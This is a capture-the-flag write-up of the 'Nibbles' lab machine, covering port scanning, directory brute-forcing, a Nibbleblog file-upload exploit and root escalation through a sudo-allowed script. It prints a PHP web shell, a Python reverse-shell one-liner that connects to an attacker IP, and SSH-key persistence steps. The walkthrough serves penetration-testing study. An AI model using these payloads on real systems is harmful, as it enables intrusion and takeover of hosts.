

# Nibbles

We’ve started executing a full port scan on the host.



Now, let’s execute a versioned port scan on the open ports that were found.


We have two ports open. One is running an SSH service and another is running an Apache Web Server. Let’s check what is the homepage of the webserver.


Accessing the index’s source code, we’ve got a possible directory on the comments.


Let’s execute a brute-force on this directory in order to check if exists any directory or file that we can exploit.


Accessing the */nibbleblog* directory we got the home page of the NibbleBlog CMS.


The brute-force directories brings us some interesting folders and files. In particular, the file */update.php* caught our attention. Accessing it we’ve got the Nibbleblog’s version.


Searching for some public vulnerabilities, we’ve got.


We have to get some valid credentials in order to run this exploit. So we’ve captured the login request on BurpSuite and we’ll execute a password brute-force attack on the user admin.

First we capture the login request with BurpSuite.


And run the hydra tool.

We aren’t successful. So verifying the exploit on GitHub that we found, there’s an example where how we run the scripts.


Enter these credentials we were able to logon the application.


Examining the exploit code, we could get that *My Image*’s plugin is vulnerable to *Arbitrary File Upload.* We are able to upload any extension file so we uploaded our payload that is:

```php
<?php system($_REQUEST['cmd']); ?>
```

After we uploaded our payload we access the *my_image* plugin directory and we see our payload file *image.php*. 


Using a payload on python we were able to get reverse shell as user *nibbler* on the host. 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```


We catch the user flag.


## Persistence Our Access

We insert into the *authorized_keys* file our public key from our attack machine, that way we are able to access the host via SSH.


Accessing the host via SSH.


## Privilege Escalation

Executing the command `sudo -l`  we could see we can escalate our privilege through the `monitor.sh` script which is zipped on our home directory.


We unzip the personal file and we were able to edit the `monitor.sh` script. So we insert the following code:

```bash
/bin/bash -p
```

And execute `sudo /home/nibbler/personal/stuff/monitor.sh` and we got root user.


We did the same thing with `nibbler` user in order to maintain our access via SSH. We’ve created the `.ssh` directory and copied our public key to `authorized_keys` on root home directory.


We login via SSH with root user and get the root flag evidence.

